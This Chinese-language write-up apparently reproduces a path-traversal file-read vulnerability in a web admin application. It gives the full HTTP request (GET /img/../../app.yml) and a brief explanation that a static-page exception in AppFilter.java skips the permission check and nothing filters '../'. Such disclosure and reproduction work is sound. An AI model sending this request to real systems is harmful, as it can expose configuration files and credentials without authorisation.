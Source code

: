 ## 漏洞复现

![image-20250324173104902](文件读取.assets/image-20250324173104902.png)

**GET** /img/../../app.yml **HTTP/1.1**

**Host**: 192.168.8.121:8080

**Origin**: http://192.168.8.121:8080

X-Requested-With: XMLHttpRequest

Accept-Encoding: gzip, deflate

**Referer**: http://192.168.8.121:8080/adminPage/monitor

Accept-Language: zh-CN,zh;q=0.9

**User-Agent**: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36

Accept: application/json, text/javascript, */*; q=0.01



## 漏洞原理：

com/cym/config/AppFilter.java中1，包含静态页面可绕过权限检测，后续无检测../的步骤
![image-20250325095859662](文件读取.assets/image-20250325095859662.png)